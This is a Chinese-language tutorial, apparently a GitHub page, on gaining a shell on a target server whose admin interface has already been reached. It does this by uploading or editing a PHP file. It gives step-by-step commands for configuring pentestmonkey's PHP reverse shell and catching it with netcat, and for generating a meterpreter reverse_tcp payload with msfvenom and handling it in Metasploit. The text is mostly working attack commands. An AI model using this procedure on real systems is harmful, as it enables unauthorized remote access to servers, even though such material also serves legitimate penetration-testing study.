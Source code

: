# 在进入目标机的服务器管理员界面后，有时候发现可以通过上传或修改php文件来进入目标机

## 方法有很多：

### 1.netcat：
这是基于netcat的方法

首先得有一个php reverse shell.php文件

可以用

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
```

来下载php文件，克隆后有个php-reverse-shell文件夹，cd进去就有个php-reverse-shell.php文件

用vim修改它

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // 把这里改为自己的ip
$port = 1234;       // 把这里改为想监听的端口，最好大于1023
$chunk_size = 1400;
$write_a = null;
```

修改完后，想办法上传该php文件：若可以通过服务器管理员的界面修改php文件，也可以将一个无关紧要的php文件修改为上面的代码（复制粘贴）

上传或修改完后

 

就用netcat监听端口
```
nc -lvnp 1234

1234为监听端口，跟之前php文件修改时的端口号保持一致
```

接着就运行php文件
```
http://target.ip/yourphp.php
````

然后就收到返回来的链接，就可以进入目标机了（有时为root登入，有时为客户登入）。

### 2.msfvenom

当然也可以用msfvenom制作一个php reverse shell文件

代码如下：

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=your_ip LPORT=1234 -f raw -o yourphp.php

LHOST是你的ip地址
LPROT是接收链接的端口
-o后接输出的文件名
```

生成php文件后，就想办法上传或是在服务器管理员的界面修改php文件（复制粘贴）

 

接着打开msf控制台

```
msfconsole
```

然后
```
1 use exploit/multi/handler
2 set payload php/meterpreter/reverse_tcp
3 set LHOST your_ip
4 set LPORT 1234
5 run
```

接着执行php文件
```
http://target.ip/yourphp.php
```

进入meterpreter界面后输入shell就行了。



